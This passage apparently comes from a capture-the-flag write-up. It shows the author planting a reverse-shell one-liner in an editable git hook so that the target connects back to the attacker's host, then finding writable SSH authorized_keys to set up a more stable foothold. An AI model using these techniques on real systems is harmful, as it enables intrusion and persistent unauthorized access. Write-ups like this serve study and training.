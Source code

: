 Let's edit the githook and include bash commands to get a reverse shell to our host. We can trigger githooks by editing the existing file and saving the changes.
```bash
bash -i >& /dev/tcp/10.17.13.94/9001 0>&1
```

![git-hook-rev-shell.png](attachments/git-hook-rev-shell.png)

# Initial Foothold
![initial-foothold.png](attachments/initial-foothold.png)

Although a reverse shell is sweet, but you know what's sweeter? SSH! Jokes aside, the first step after gaining an initial foothold is always to try and get a more stable shell. Especially in this case, we'll see that we are unable to run curl or wget on this box, therefore in order to transfer files, we would indeed need ssh access. 

Navigating to /home/git/.ssh we can see that we have write permission for authorized keys.

![write-perm-ssh.png](attachments/write-perm-ssh.png)

